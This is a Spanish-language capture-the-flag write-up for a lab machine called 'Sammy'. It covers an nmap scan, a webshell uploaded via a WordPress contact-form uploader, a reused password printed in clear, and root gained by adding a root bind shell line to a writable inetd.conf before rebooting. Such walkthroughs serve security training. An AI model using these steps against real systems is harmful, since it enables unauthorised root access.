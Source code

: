 # CTF Hackplayers 2018 - Sammy

Maquina ‘Sammy’ 10.42.0.153

```bash
$ nmap -sV 10.42.0.153
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1_hpn13v11 (FreeBSD 20140420; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((FreeBSD) PHP/5.6.19)
3306/tcp open  mysql   MySQL (unauthorized)
```

El servicio http aloja una aplicación wordpress. En la página de contacto se encuentra un file uploader que podemos utilizar para subir una webshell.

Esta webshell se almacena en el directorio */wp-content/uploads/*.

![](img/sammy-shell.png)

Una vez tenemos acceso al servidor, vemos que existe un usuario bob. Por lo que probamos a acceder con la contraseña *KsupesLd819/*  conseguida anteriormente en la máquina Cisco.

Si utilizamos `sudo -l` podemos ver como el usuario *bob* tiene permisos para reiniciar la maquina. Por lo que sospechamos que la elevación podría hacerse modificando algunos de los servicios que arrancan al iniciar la máquina.

En este caso el servicio vulnerable es *inetd*, ya que los permisos del archivo */etc/inetd.conf* nos permiten modificarlo.

Modificamos el archivo de configuración *inetd.conf* para montar una bind shell en el puerto 21 correspondiente al servicio ftp.

```
ftp stream tcp nowait root /bin/sh -i
```

```bash
$ sudo reboot
```

Una vez reiniciada la máquina, nos conectamos al puerto 21 y obtenemos una shell con el usuario root.

![](img/sammy-root.png)
